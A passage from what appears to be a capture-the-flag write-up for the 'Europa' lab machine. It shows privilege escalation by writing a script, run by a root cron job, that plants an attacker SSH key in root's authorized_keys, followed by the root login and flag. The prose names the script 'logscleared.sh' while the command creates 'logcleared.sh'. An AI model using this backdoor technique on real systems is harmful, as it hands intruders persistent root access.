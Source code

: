 ### Execution

Given that `clearlogs` is being called every minute, and `clearlogs` is calling `logscleared.sh`, but that file doesn’t exist, if I can create it, I’ll have execution to run whatever I want. I’ll create a script that puts my tiny ed25519 public SSH key into the root `authorized_keys` file, and make it executable:

```

www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys'
#!/bin/bash

mkdir /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys

www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys' > logcleared.sh 
www-data@europa:/var/www/cmd$ chmod +x logcleared.sh

```

Now I’ll wait for the next minute to pass, and then connect with SSH as root:

```

root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.22
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Fri Jan 22 15:53:41 2021 from 10.10.14.11
root@europa:~#

```

And grab `root.txt`:

```

root@europa:~# cat root.txt
7f19438b************************

```
